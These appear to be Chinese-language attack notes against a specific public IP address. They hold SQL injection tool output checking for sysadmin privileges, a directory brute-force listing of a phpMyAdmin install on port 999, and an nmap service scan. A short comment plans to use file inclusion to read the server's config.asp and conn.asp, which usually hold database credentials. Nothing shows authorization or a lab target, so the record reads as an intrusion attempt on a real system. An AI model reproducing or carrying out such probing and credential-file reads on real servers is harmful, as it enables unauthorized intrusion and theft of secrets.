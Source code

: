 ```
[22:06:40] [INFO] resumed: '0'
SELECT (CASE WHEN (IS_SRVROLEMEMBER('sysadmin')=1) THEN '1' ELSE '0' END):    '0'
```
port 999 开了个 PHPmyadmin
phpinfo需要登录才能查看
结合文件包含尝试获取一下源文件
config.asp
conn.asp
```
Target: http://120.79.231.181:999

[19:54:39] Starting:
[19:54:48] 200 -  777B  - /composer.json
[19:54:48] 200 -    0B  - /config.inc.php
[19:54:49] 301 -  158B  - /database  ->  http://120.79.231.181:999/database/
[19:54:49] 403 -    1KB - /database/
[19:54:49] 301 -  153B  - /doc  ->  http://120.79.231.181:999/doc/
[19:54:49] 403 -    1KB - /doc/
[19:54:50] 301 -  158B  - /examples  ->  http://120.79.231.181:999/examples/
[19:54:50] 403 -    1KB - /examples/
[19:54:50] 200 -   18KB - /favicon.ico
[19:54:51] 200 -    7KB - /import.php
[19:54:52] 200 -    7KB - /index.php
[19:54:52] 200 -    7KB - /index.PHP
[19:54:52] 200 -    7KB - /INDEX.PHP
[19:54:52] 200 -    7KB - /index.php/login/
[19:54:52] 301 -  152B  - /js  ->  http://120.79.231.181:999/js/
[19:54:52] 301 -  159B  - /libraries  ->  http://120.79.231.181:999/libraries/
[19:54:52] 200 -    7KB - /license.php
[19:54:55] 200 -    7KB - /phpInfo.php
[19:54:55] 200 -    7KB - /phpinfo.php
[19:54:55] 200 -    7KB - /PHPinfo.php
[19:54:55] 200 -    7KB - /PHPINFO.php
[19:54:55] 200 -    7KB - /PhpInfo.php
[19:54:57] 200 -   26B  - /robots.txt
[19:54:58] 200 -   11KB - /setup/
[19:54:58] 200 -    7KB - /sql.php
[19:55:00] 301 -  156B  - /themes  ->  http://120.79.231.181:999/themes/
```



```
➜  ~ nmap -sV -A 120.79.231.181 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-03-21 22:34 EDT
Nmap scan report for 120.79.231.181
Host is up (1.1s latency).
Not shown: 966 closed ports
PORT      STATE    SERVICE            VERSION
21/tcp    open     ftp                Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open     http               Microsoft IIS httpd 8.5
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|   Digest qop=auth nonce=+Upgraded+v1e7a558b333841502833d6515e97f1614a062e41a58e0d40127a560df07e9ae7bf03181900d256f8d9a13c13f3e38739e62c03c631595495b charset=utf-8 realm=Digest algorithm=MD5-sess
|   Negotiate
|_  NTLM
| http-ntlm-info: 
|   Target_Name: iZztdc2gcz0d1vZ
|   NetBIOS_Domain_Name: iZztdc2gcz0d1vZ
|   NetBIOS_Computer_Name: iZztdc2gcz0d1vZ
|   DNS_Domain_Name: iZztdc2gcz0d1vZ
|   DNS_Computer_Name: iZztdc2gcz0d1vZ
```